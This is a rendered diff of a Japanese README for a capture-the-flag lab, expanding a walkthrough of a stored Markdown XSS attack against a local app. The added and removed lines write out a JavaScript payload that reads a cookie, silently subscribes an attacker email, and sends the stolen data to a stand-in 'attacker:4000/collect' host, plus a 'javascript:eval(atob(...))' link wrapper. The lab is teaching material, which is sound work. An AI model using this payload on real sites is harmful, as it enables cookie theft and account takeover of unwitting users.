

Before and after one commit to kumama-nui/security-labs, a Markdown page: markdown-xss-cookie-lab/README.md, the part around one of its changes. Shown at 91% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
expand markdown xss solution walkthrough

````diff
--- a/markdown-xss-cookie-lab/README.md
+++ b/markdown-xss-cookie-lab/README.md
@@ -53,26 +89,82 @@ flag=FLAG{local_markdown_xss_cookie_lab}
+このページを admin bot に開かせるため、プレイヤーは `/report` に `http://localhost:4000/lab` を報告します。`/report` は `localhost:4000` を Docker 内部の attacker サービスへ変換して bot に渡します。
+
+### 4. XSS payload を組み立てる
+
+payload では、この CTF 用に意図的に読める `flag` Cookie だけを抽出します。`admin_session` は HttpOnly なので読みません。localStorage、sessionStorage、環境変数、ローカルファイル、OS 情報も読みません。
+
+読みやすく書くと、payload の中身は次の処理です。
+
+```js
+void (async () => {
+  const flagCookie = document.cookie
+    .split("; ")
+    .find((part) => part.startsWith("flag=")) || "";
+  const flag = flagCookie.startsWith("flag=") ? flagCookie.slice("flag=".length) : "";
+
+  const me = await fetch("/api/me", {
+    credentials: "same-origin"
+  }).then((response) => response.json());
+
+  await fetch("/api/conversations/latest/subscribers", {
+    method: "POST",
+    credentials: "same-origin",
+    headers: { "content-type": "application/json" },
+    body: JSON.stringify({ email: "attacker@example.test" })
+  });
+
+  const body = JSON.stringify({
+    cookie: flagCookie,
+    flag,
+    me
+  });
+
+  if (!navigator.sendBeacon("http://attacker:4000/collect", body)) {
+    await fetch("http://attacker:4000/collect", {
+      method: "POST",
+      mode: "no-cors",
+      body
+    });
+  }
+})();
+```
+
+成功すると `/collect` に次の JSON 相当が届きます。
+
+```json
+{
+  "cookie": "flag=FLAG{local_markdown_xss_cookie_lab}",
+  "flag": "FLAG{local_markdown_xss_cookie_lab}",
+  "me": {
+    "role": "admin",
+    "email": "admin@example.test"
+  }
+}
+```
+
+### 5. Markdown リンク用に payload を包む
+
+JavaScript をそのまま Markdown URL に入れると、括弧や空白で Markdown パーサに壊されやすくなります。そのため、実装済みの `/lab` は payload を Base64 にして、次の形にしています。
+
+```markdown
+[open details](javascript:eval(atob("<base64 payload>")))
+```
+
+このリンクが `/help/search` で `<a href="javascript:eval(atob(...))">open details</a>` として表示され、admin bot のクリックで実行されます。
+
+### 6. 報告して結果を見る
+
+完成した CSRF ページを attacker 側で配信できたら、`/report` にその URL を報告します。このラボでは完成済みの CSRF ページが `/lab` にあります。
 
 ```text
-POST http://app:3000/help/search
-query=test
-greeting=[open details](javascript:<payload>)
+http://localhost:4000/lab
 ```
 
-`greeting` は `/help/search` で Markdown として表示されます。脆弱版では Markdown リンク URL のスキーム検証が不足しているため、`javascript:` がそのままリンクになります。admin bot は `.assistant-message a` の最初のリンクを通常クリックするので、リンク内の JavaScript が admin セッションの `app` オリジンで実行されます。
+bot のレスポンスに次が出れば、リンク発見とクリックまでは成功しています。
 
-payload が行うことは次の 4 つだけです。
-
-```js
-const flagCookie = document.cookie
-  .split("; ")
-  .find((part) => part.startsWith("flag=")) || "";
-const flag = flagCookie.startsWith("flag=") ? flagCookie.slice("flag=".length) : "";
-const me = await fetch("/api/me", { credentials: "same-origin" }).then((r) => r.json());
-await fetch("/api/conversations/latest/subscribers", {
-  method: "POST",
-  credentials: "same-origin",
-  headers: { "content-type": "application/json" },
-  body: JSON.stringify({ email: "attacker@example.test" })
-});
-navigator.sendBeacon("http://attacker:4000/collect", JSON.stringify({ cookie: flagCookie, flag, me }));
+```json
+{
+  "foundLink": true,
+  "clicked": true
+}
 ```
 
````
Also changed, not shown: other parts of markdown-xss-cookie-lab/README.md (+54 -10 lines).
